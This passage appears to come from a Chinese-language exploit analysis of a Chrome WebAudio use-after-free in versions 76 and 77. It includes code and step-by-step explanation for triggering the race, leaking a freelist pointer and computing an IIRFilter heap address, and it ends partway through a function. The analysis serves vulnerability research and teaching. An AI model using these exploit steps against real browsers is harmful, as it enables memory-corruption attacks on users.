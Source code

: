 ```JavaScript
  let result = BigInt(0);
  let tmp = x;

  for (let i = 0; i < 8; i++) {
    result = result << BigInt(8);
    result += tmp & BigInt(0xFF);
    tmp = tmp >> BigInt(8);
  }

  return result;
}
```

思路如下：
- 创建一段全 0 的音频数据 channelBuffer
- 创建节点：
	- 音源节点 bufferSource，以 channelBuffer 为输入
	- 混响处理节点 convolerNode，IR 参数为 channelBuffer
	- 脚本处理节点 scriptNode，利用其 onaudioprocess 事件处理函数，检查混响输出的数据
- 连接上面的所有节点，构造 bufferSouce -> convolerNode -> scriptNode -> destination 处理图，其中 destination 是 `OfflineAudioContext` 内部的特殊节点，代表数据处理的结果
- 调用 `startRendering()` 函数，启动音频处理任务，这个函数返回的是 `Promise` 对象，调用其 `then` 设置一个回调函数，在任务完成后检查漏洞是否利用成功，如果没成功则递归调用 trigerUaF 继续触发漏洞
- `startRendering` 只是发送一个任务到音频处理线程，不会等待任务的处理，在其返回后主线程继续执行后续代码，执行到 while 循环，不断的在 `null` 和 `channelBuffer` 之间赋值混淆节点的 `buffer`。

对全 0 数据做混响，得到的结果应该还是全 0，如果混响的结果中包含了非 0 数据，就说明漏洞被成功触发了，混响过程中读到了下一个空闲块的指针。scriptNode 的事件处理就是在检查混响输出的数据，在其中查找这个指针，这个指针是大小端翻转过的，在读取到以后要用 `byteSwapBigInt` 把它复原。

---

**ℹ️NOTE**: PartitionAlloc 为了缓解漏洞利用，把空闲链表的指针大小端翻转存储。

---

#### 计算 IIRFilter.feedforward_ 地址

[`IIRFilter`](https://source.chromium.org/chromium/chromium/src/+/main:third_party/blink/renderer/platform/audio/iir_filter.h) 内部也有一个 `AudioArray` 成员 `IIRFilter::feedforward_`。用上一步泄露出的地址，加上固定的偏移，就可以计算出 `IIRFilter.feedforward_` 的地址。

---

**ℹ️NOTE**: 水平所限我不能确定这个固定偏移的来源，我推测是每次 `JavaScript` 代码运行过程中分配的对象大致相同，整体占用内存也不多，就使得两块内存一般在同一个 SuperPage 中且间隔页面大致固定。

---

```JavaScript
function initialUAFCallback(addr) {
  let partitionPageIndexDelta = undefined;
  sharedAudioCtx = new OfflineAudioContext(1, 1, 3000);

  switch (majorVersion) {
    case 77: // 77.0.3865.75
      partitionPageIndexDelta = BigInt(-26);
      break;

    case 76: // 76.0.3809.87
      partitionPageIndexDelta = BigInt(-25);
      break;
  }

  iirFilterFeedforwardAllocationPtr =
	  getPartitionPageBaseWithinSuperPage(addr, getPartitionPageIndex(addr) +
		partitionPageIndexDelta) + BigInt(0x1FF0);

```